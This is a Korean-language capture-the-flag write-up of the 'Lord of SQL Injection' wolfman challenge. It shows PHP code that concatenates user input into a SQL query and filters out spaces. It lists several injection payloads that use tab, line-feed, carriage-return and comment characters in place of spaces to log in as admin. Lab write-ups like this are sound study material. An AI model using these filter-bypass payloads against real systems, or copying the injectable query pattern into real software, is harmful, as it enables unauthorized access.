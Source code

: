 # Lord of SQL Injection No.5 - wolfman

## 문제 출제의도

공백문자를 우회하여 SQL문을 조작할 수 있는지 확인한다.

## 소스 코드 분석

```php
<?php 
    include "./config.php"; 
    login_chk(); 
    dbconnect(); 
    if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
    if(preg_match('/ /i', $_GET[pw])) exit("No whitespace ~_~"); 
    $query = "select id from prob_wolfman where id='guest' and pw='{$_GET[pw]}'"; 
    echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
    $result = @mysql_fetch_array(mysql_query($query)); 
    if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
    if($result['id'] == 'admin') solve("wolfman"); 
    highlight_file(__FILE__); 
?>
```
id = 'quest'를 무력화시키고 admin값으로 바꾸어주어야한다.
-----
```php
if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
if(preg_match('/ /i', $_GET[pw])) exit("No whitespace ~_~"); 
```
* preg_match에서 space_bar를 필터링 한다.

## 문제 해결방안
    
### 공백을 대신할 수 있는 방안을 사용한다.

…?pw=' or id='admin' 을 해주면 되지만 띄어쓰기가 안되므로 띄어쓰기의 역할을 하는 것들을 이용하여 띄어쓰기 공간을 채워준다.

* 띄어쓰기 대신 사용가능한 %09 으로 …?pw='%09or%09id='admin을 해주게 되면 성공한다

* lineFeed(\n)으로 띄어쓰기를 대신하여 %0a를 사용한다. >> …?pw='%0aor%0aid='admin을 하게 되면 문제풀이에 성공한다.

* Carrage Return을 이용하여 띄어쓰기를 대신한다. %0d >> …?pw='%0dor%0did='admin을 하게 되면 문제풀이에 성공한다.

* 주석을 이용하여 띄어쓰기를 대신한다. /**/ >> …?pw='/**/or/**/id='admin을 하게 되면 문제풀이에 성공한다.